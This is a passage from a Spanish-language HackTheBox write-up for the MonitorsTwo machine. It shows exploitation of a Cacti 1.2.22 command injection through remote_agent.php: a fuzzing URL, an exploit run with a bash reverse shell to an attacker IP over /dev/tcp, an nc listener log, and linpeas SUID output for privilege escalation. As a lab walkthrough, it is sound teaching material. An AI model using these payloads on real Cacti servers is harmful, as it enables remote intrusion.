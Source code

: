 ```php
     */
	$cactiphp = proc_open(read_config_option('path_php_binary') . ' -q ' . $config['base_path'] . '/script_server.php realtime ' . $poller_id, $cactides, $pipes);
    $output = fgets($pipes[1], 1024);
	$using_proc_function = true;
} else { 
}

``` 

Con la informacion anterior, se puede desarrollar un exploit para ejecutar comandos de forma remota, simplemente se debe encontrar un LOCAL_DATA_ID y un HOST_ID valido realizando un fuzzing a la siguiente ruta: 
```
/remote_agent.php?action=polldata&local_data_ids[]=$FUZZ$&host_id=$FUZZ$&poller_id=669
``` 
Este proceso se realiza hasta obtener un resultado como el siguiente:
```
[{"value":"0","rrd_name":"uptime","local_data_id":"6"}]
```

Para automatizar el proceso de fuzzing y envio del payload, hicé un script ` cacti_1.2.22_exploit.py ` el cuál puede ser revisado en mi repositorio de github (https://github.com/mind2hex/HackTheBox/Machines/Linux/MonitorsTwo).
```bash
# TERMINAL 1 iniciando el listener
nc -lvnp 1234  
listening on [any] 1234 ...

# TERMINAL 2 ejecutando el script
python3 cacti_1.2.22_exploit.py http://10.10.11.211/ "bash -c 'exec bash -i &>/dev/tcp/10.10.16.2/1234 <&1'"
1 6
[!] Sending payload: 669%3Bbash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/10.10.16.2/1234%20%3C%261%27

# TERMINAL 1 recibiendo la conexion
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.211] 47748
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ 
```

### Escalación de privilegios en el contenedor

Al momento de obtener una shell, se procedió a cargar el script `linpeas.sh` para la enumeracion local.
```bash
# La shell se esta ejecutando adentro de un contenedor
╔══════════╣ Unexpected in root   
/.dockerenv
/entrypoint.sh

# el binario capsh nos permite escalar privilegios
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
```